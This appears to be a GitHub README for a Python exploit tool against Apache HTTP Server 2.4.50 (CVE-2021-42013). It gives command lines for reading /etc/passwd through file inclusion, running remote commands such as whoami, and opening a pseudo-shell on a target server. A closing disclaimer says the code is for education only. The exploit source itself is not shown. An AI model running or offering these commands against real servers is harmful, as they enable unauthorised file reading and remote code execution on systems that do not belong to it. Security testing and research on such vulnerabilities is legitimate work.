 # Project Title

Apache HTTP Server 2.4.50 - Local File Inclusion (LFI) & Remote Code Execution (RCE)

## Description

A python3 script for the CVE-2021-42013 - Apache HTTP Server 2.4.50 LFI & RCE. RCE requires cgi-bin to be enabled

## Getting Started

### Executing program

* LFI
```
python3 apache_2.4.50.py -t http://apache.hack/ -lfi /etc/passwd
```
* RCE
```
python3 apache_2.4.50.py -t http://apache.hack/ -rce whoami
```
* Pseudo-shell
```
python3 apache_2.4.50.py -t http://apache.hack/ -shell
```

## Help

For help menu:
```
python3 apache_2.4.50.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.